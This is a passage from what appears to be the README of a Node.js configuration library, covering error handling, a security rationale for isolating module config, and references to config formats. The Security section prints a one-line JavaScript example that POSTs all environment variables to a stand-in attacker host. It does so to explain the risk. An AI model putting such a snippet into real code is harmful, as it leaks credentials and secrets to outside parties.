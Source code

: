 ### Parsing Errors

All errors encountered during parsing will throw an error immediately.
Errors are **never** catched to allow a developer to find the origin of
any error.

<a name="Security"></a>

## Security

[The Twelve-Factor App][] proposes to store all configuration
information within environment variables. With this a complete
separation of code and config is achieved. Cool and simple.

On the other hand this introduces security risks which not everyone
likes to engage with (me included). Any shelled out exec (using
`require('child')`) has full access to your most intimate keys. The
same applies to any module you are requiring in your application.

Imagine this small code hidden somewhere...

````js
require('http')
.request({host:'gimmeyourconf.com', method: 'POST'})
.end(JSON.stringify(process.env));
````

This submits all your 12factor-Config in one single line. A bit of
obfuscation and all done.

This project aims to keep your config values there, where they are
needed. No other module should be able to get any details of another
modules- or even the Application-config.

We still *keep code and config separate* but now *isolating* app and
all modules from each other.

# Annex

## References



* [CSON][CSON]
* [debug][debug]
* [Hjson - the Human JSON][Hjson]
* [JSON - JavaScript Object Notation][JSON]
* [json5 - JSON for the ES5 era][json5]
* [node-config][node-config]
* [Properties][Properties]
* [The Twelve-Factor App][The Twelve-Factor App]
* [TOML - Tom's Obvious, Minimal Language.][TOML]
* [YAML Ain't Markup Language][YAML]
* [YAML-Parser][YAML-Parser]


[JSON]: http://json.org/ "JSON - JavaScript Object Notation"
[json5]: https://www.npmjs.com/package/json5 "json5 - JSON for the ES5 era"
[Hjson]: http://laktak.github.io/hjson/ "Hjson - the Human JSON"
[TOML]: https://github.com/toml-lang/toml "TOML - Tom's Obvious, Minimal Language."
[YAML]: http://yaml.org/ "YAML Ain't Markup Language"
[YAML-Parser]: https://www.npmjs.com/package/js-yaml
[CSON]: https://www.npmjs.com/package/cson
[Properties]: http://docs.oracle.com/javase/7/docs/api/java/util/Properties.html#load
[debug]: https://github.com/visionmedia/debug
[The Twelve-Factor App]: http://12factor.net
[node-config]: https://github.com/lorenwest/node-config